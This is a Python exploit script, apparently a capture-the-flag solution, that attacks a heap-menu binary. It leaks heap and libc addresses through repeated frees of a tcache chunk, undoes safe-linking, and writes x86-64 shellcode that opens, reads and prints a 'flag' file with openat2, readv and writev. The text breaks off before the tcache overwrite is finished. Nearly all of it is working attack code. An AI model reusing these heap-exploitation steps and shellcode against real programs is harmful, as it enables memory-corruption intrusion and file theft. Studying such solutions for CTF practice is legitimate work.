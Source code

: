 ```python
def reveal_ptr(ptr, addr):
    return (addr >> 12) ^ ptr

def exp():
    add(0, 0x100, b'asd') # $+0x480 -> shellcode
    add(1, 0x100, b'asd') # $+0x590 -> tcache attack
    add(31, 0x100, b'gap')
    
    #-------------------------- LEAK HEAP AND LIBC --------------------------#
    
    free(1)
    add(2, 0x100, b'a' * 0x10)
    free(1)
    show(2)
    io.recvuntil(b'Data: ')
    heap_base = u64(io.recvuntil(b'\n', drop=True).ljust(8, b'\x00')) << 12
    success(f'{heap_base = :#x}')

    for _ in range(7):
        edit(2, b'a' * 0x10)
        free(1)
    
    show(2)
    io.recvuntil(b'Data: ')
    libc.address = u64(io.recv(6).ljust(8, b'\x00')) - 0x203b20
    success(f'{libc.address = :#x}')

    #-------------------------- Tcache Attack --------------------------#

    shellcode_addr = heap_base + 0x480
    chunk_addr = heap_base + 0x590

    shellcode = f"""
        push 0x50
        lea rax, [rsp - 0x90]
        push rax
    
        mov rax, 0x67616c662f
        push rax
    
        push __NR_openat2 ; pop rax
        xor rdi, rdi
        push rsp ; pop rsi
        push rdi ; push rdi ; push rdi
        mov rdx, rsp
        push 0x18 ; pop r10
        syscall
        popf ; popf ; popf
        push rax
    
        push __NR_readv ; pop rax
        pop rdi
        popf
        push rsp ; pop rsi
        push 1 ; pop rdx
        syscall
    
        push __NR_writev ; pop rax
        push 1 ; pop rdi
        syscall
    """
    edit(0, asm(shellcode))
    
```